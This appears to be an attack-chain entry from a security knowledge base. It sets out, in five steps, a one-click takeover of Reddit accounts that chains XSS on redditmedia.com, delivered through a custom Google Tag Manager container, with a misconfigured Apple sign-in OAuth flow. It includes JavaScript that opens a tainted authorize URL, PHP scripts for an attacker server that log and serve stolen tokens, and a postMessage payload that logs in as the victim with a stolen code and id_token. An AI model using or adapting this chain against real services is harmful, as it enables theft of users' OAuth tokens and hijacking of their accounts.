

---
tags:
  - xss
  - oauth-misconfiguration
  - account-takeover
  - token-theft
type: attack_chain
tools:
  - '[[tools/Google-Tag-Manager]]'
  - '[[tools/Chrome-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/postmessage-oauthdone]]'
  - '[[commands/php-log-querystring]]'
  - '[[commands/php-parse-log]]'
  - '[[commands/open-appleid-authorize]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Prepare-Attacker-State-Parameter]]'
  - '[[procedures/Create-Malicious-Page-with-GTM-XSS]]'
  - '[[procedures/Induce-Victim-to-Click-Tainted-Link]]'
  - '[[procedures/Steal-OAuth-Tokens-via-XSS]]'
  - '[[procedures/Hijack-Account-with-Stolen-Tokens]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
description: >-
  Multi-stage attack chain exploiting XSS on www.redditmedia.com and OAuth
  misconfigurations in Reddit's Apple sign-in to achieve one-click account
  takeover.
skill_level: intermediate
impact_level: high
id: db84a561-9643-425d-86da-7afc88bfdebc
created_at: '2025-12-14T00:11:25.344Z'
updated_at: '2025-12-14T00:11:25.344Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
---
# One-Click Reddit Account Hijack via XSS and OAuth Misconfiguration in Apple Sign-In

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Google-Tag-Manager]]
- [[tools/Chrome-Browser]]

### Target Environment

- Web platform
- Services: Reddit, Apple ID, Google Tag Manager
- Tech stack: JavaScript, HTML, OAuth, PHP

### Initial Access Requirements

- Attacker needs access to Reddit and Apple sign-in
- Victim must use Apple sign-in on Reddit
- Network access to reddit.com and redditmedia.com

## Detailed Attack Procedures

### Step 1: Prepare Attacker State Parameter
procedure: [[procedures/Prepare-Attacker-State-Parameter]]

**Objective**: Obtain a valid state parameter from the attacker's own Apple sign-in flow on Reddit to use in the attack.

**Instructions**: Initiate Apple sign-in on reddit.com using [[tools/Chrome-Browser]] to extract the state from the URL.

**Expected Output**: A valid state parameter encoded for use in subsequent steps.

**Success Indicators**:
- State parameter successfully extracted
- Parameter is valid for OAuth flow

### Step 2: Create Malicious Page with GTM XSS
procedure: [[procedures/Create-Malicious-Page-with-GTM-XSS]]

**Objective**: Build a malicious web page that loads an iframe with a custom GTM ID to inject XSS payload on www.redditmedia.com.

**Instructions**: Use [[tools/Google-Tag-Manager]] to set up a custom GTM ID (e.g., GTM-N3HH8D6). Create HTML/JS page with iframe src='https://www.redditmedia.com/gtm/jail?id=GTM-N3HH8D6&state=[encoded_state]'. Inject script to modify response_type to 'code+id_token' and response_mode to 'fragment'. Use [[commands/open-appleid-authorize]] to initiate the tainted OAuth flow:

```javascript
b=window.open('https://appleid.apple.com/auth/authorize?client_id=com.reddit.RedditAppleSSO&redirect_uri=https%3A%2F%2Fwww.reddit.com&response_type=code+id_token&state='+ state +'&scope=&response_mode=fragment&m=12&v=1.5.4');
```

**Expected Output**: Malicious page ready to taint the login flow.

**Success Indicators**:
- Iframe loads with injected JS
- Tainted link modifies OAuth parameters

### Step 3: Induce Victim to Click Tainted Link
procedure: [[procedures/Induce-Victim-to-Click-Tainted-Link]]

**Objective**: Trick the victim into visiting the malicious page and clicking the tainted Apple sign-in link to leak tokens in the URL fragment.

**Instructions**: Victim visits the page and completes Apple sign-in, redirecting to https://reddit.com/#state=xxx&code=xxx&id_token=xxx.

**Expected Output**: Tokens leaked in the URL fragment.

**Success Indicators**:
- Victim redirects with tokens in fragment
- No errors in sign-in process

### Step 4: Steal OAuth Tokens via XSS
procedure: [[procedures/Steal-OAuth-Tokens-via-XSS]]

**Objective**: Use the XSS in the redditmedia.com iframe to steal the leaked tokens via window.name and postMessage.

**Instructions**: Injected JS monitors window.name, extracts fragment with tokens, and sends via postMessage. Log to server using endpoints like those in [[commands/php-log-querystring]] and [[commands/php-parse-log]]:

```php
<?php if(isset($_SERVER['QUERY_STRING'])){ file_put_contents('r.log',$_SERVER['QUERY_STRING']."\n",FILE_APPEND); } ?>
```

```php
<?php header("Access-Control-Allow-Origin: *"); header("Content-type: text/plain"); $key= @$_GET['q']; if(!$key||!preg_match('#^[a-f0-9]{48}$#',$key)){die;} $data=explode("\n",file_get_contents('r.log')); foreach($data as $line){ if(strpos($line,$key)!==false){ echo $line."\n"; die; } } ?>
```

**Expected Output**: Tokens captured and logged on attacker's server.

**Success Indicators**:
- Tokens extracted via postMessage
- Successful logging to server

### Step 5: Hijack Account with Stolen Tokens
procedure: [[procedures/Hijack-Account-with-Stolen-Tokens]]

**Objective**: Use the stolen code and state to complete the login as the victim and hijack the Reddit account.

**Instructions**: From the attacker's Apple popup, post a message to Reddit using [[commands/postmessage-oauthdone]]:

```javascript
opener.postMessage('{"method":"oauthDone","data":{"authorization":{"code":"[stolen_code]","id_token":"[stolen_id_token]","state":"[attacker_state]"}}}',"*");
```

**Expected Output**: Successful login as the victim on Reddit.

**Success Indicators**:
- Account access granted to attacker
- Full control over victim's Reddit account

## Attack Chain Summary

### Key Achievements

1. Exploitation of XSS to inject malicious JS
2. Misconfiguration of OAuth to leak tokens
3. Successful theft and use of tokens for account hijack

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: [TIMESTAMP]*
